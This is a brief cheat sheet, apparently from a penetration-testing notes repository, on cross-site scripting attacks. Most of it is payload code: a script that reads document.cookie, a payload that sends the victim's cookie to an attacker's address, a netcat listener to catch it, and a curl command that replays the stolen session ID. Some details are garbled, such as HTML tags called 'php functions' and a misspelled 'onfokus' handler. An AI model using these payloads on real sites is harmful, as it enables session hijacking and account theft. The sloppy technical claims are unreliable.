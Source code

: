 # XSS

Get cookie:
```php
<script>document.write(document.cookie)</script>
```
Can use different php function than <script>.

php
```php
<title>
<style>
<textarea>
<noscript>
<pre>
<iframe>
```

javascript:
```javascript
onload()
onmouseover()
autofocus()
onfokus()
```

Send cookie back to your self:
```php
<SCRIPT>window.location='http_address:port/?cookie='+document.cookie</SCRIPT>
```
and use a listener:
```bash
nc -lvnp port
```
Use curl to pass the cookie and get the info:
```bash
curl -b "security=low;PHPSESSID=cookie_here" --location "http_address_here" > output_to_file
```

